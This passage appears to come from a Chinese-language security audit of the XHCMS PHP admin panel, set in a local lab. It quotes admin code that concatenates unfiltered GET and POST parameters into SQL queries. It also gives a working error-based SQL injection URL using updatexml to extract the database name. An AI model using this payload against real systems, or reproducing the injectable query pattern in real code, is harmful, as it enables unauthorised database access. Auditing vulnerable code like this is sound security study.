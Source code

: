 这是一个后台的链接界面,我们先登陆进后台,然后去包含这个文件

```
http://192.168.121.130/xhcms/admin/?r=editcolumn
```

其实这个文件夹下的所有文件都需要这么去使用

跳转到了如下界面

![image-20210923121310956](images/11.png)

关键代码

```
$id=$_GET['id'];
$type=$_GET['type'];
if ($type==1){
$query = "SELECT * FROM nav WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
if ($type==2){
$query = "SELECT * FROM navclass WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$nav = mysql_fetch_array($resul);
}
$save=$_POST['save'];
$name=$_POST['name'];
$keywords=$_POST['keywords'];
$description=$_POST['description'];
$px=$_POST['px'];
$xs=$_POST['xs'];		//变量由POST直接得到，未做过滤
```

sql语句都差不多,就是单引号闭合而已,主要看参数

这里需要传参type和id参数,type为一或者为2都可以

```
http://192.168.121.130/xhcms/admin/?r=editcolumn&type=2&id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

![image-20210923231507005](images/12.png)

当然控制type参数还可以进入下面的update语句,一样可以去执行语句

### /admin/files/editlink.php

```
<?php
require '../inc/checklogin.php';
require '../inc/conn.php';
$linklistopen='class="open"';
$id=$_GET['id'];
$query = "SELECT * FROM link WHERE id='$id'";
$resul = mysql_query($query) or die('SQL语句有误：'.mysql_error());
$link = mysql_fetch_array($resul);

$save=$_POST['save'];
$name=$_POST['name'];
$url=$_POST['url'];
$mail=$_POST['mail'];
$jieshao=$_POST['jieshao'];
$xs=$_POST['xs'];
if ($xs==""){
$xs=1;	
	}
```